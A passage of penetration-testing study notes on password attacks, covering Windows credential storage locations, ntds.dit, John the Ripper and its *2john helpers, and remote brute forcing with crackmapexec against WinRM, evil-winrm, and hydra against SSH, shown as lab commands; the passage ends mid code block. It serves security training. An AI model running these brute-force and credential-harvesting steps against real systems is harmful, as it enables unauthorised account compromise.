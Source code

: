     * Credential manager -

      * allows users to save creds to access various network resources
      * saved creds are stored based on user profiles in each user's Credential Locker
      * encrypted & stored at ```C:\Users\[username]\AppData\Local\Microsoft\[Vault/Credentials]\```

    * NTDS -

      * in AD environment, DC hosts ```ntds.dit``` that is kept synced across all DCs (except read-only DCs)
      * stores data like user accounts, group accounts, computer accounts, group policy objects, etc.

* JTR (John The Ripper):

  * tool to crack encrypted/hashed passwords
  * uses attacks such as dictionary attacks, brute force attacks, rainbow table attacks, etc.
  * attack modes include single crack mode, wordlist mode, incremental mode
  * can be used to crack files as well with tools like ```pdf2john```, ```ssh2john```, ```rar2john```, ```keepass2john```, ```zip2john```, etc.
  * another way to list these tools is using the command ```locate *2john*```

## Remote Password Attacks

* Network Services:

  * WinRM (Windows Remote Management):

    * used for remote management of Windows systems; uses TCP/5985, TCP/5986
    * for security reasons, WinRM must be activated & configured manually
    * we can use tools like ```crackmapexec``` and ```evil-winrm``` for attacking WinRM:

      ```sh
      crackmapexec -h

      crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
      # general format

      crackmapexec winrm 10.129.42.197 -u user.list -p password.list

      evil-winrm -i 10.129.42.197 -u user -p password
      # for testing creds found above
      # if it works, we get a PS session
      ```
  
  * SSH (Secure Shell):

    * to connect to a remote host for command execution & file transfer; uses TCP/22
    * uses symmetric & asymmetric encryption, and hashing
    * we can use tools like ```hydra``` for brute force:

      ```sh
      hydra -L user.list -P password.list ssh://10.129.42.197
